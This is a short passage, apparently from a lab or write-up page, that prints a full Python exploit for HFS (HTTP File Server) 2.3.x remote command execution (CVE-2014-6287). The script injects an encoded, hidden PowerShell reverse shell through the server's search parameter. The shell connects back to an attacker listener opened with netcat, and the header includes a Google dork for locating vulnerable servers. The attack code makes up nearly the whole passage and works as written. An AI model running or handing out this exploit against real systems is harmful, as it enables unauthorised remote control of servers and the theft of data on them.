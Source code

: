 Using the `-x` option to exermine the first RCE.

```sh
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.10.1"
lport = 1111
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
print("\nListening for connection...")
os.system(f'nc -nlvp {lport}')
```
